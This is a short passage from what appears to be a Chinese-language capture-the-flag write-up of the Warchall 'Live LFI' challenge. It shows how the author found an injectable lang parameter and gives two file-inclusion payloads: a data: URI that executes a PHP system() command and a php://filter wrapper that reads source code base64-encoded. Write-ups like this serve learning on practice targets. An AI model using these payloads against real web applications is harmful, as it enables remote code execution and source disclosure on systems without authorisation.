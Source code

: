 	<img src="/images/posts/writeup1/16.png" height="300" width="500">  
</div>

----------

### <a name="5"></a>5、Warchall: Live LFI (Linux, Exploit, Warchall)


文件包含，打开链接，发现只有设置网站语言的地方有参数传递，所以尝试构造：http://lfi.warchall.net/index.php?lang=solution.php。
<div align="center">
	<img src="/images/posts/writeup1/17.png" height="300" width="500">  
</div>

一看有戏，尝试读取文件源码。这里介绍读源码的两种：

	?file=data:text/plain,<?php system("cat solution.php")?>
	?file=php://filter/read=convert.base64-encode/resource=index.php
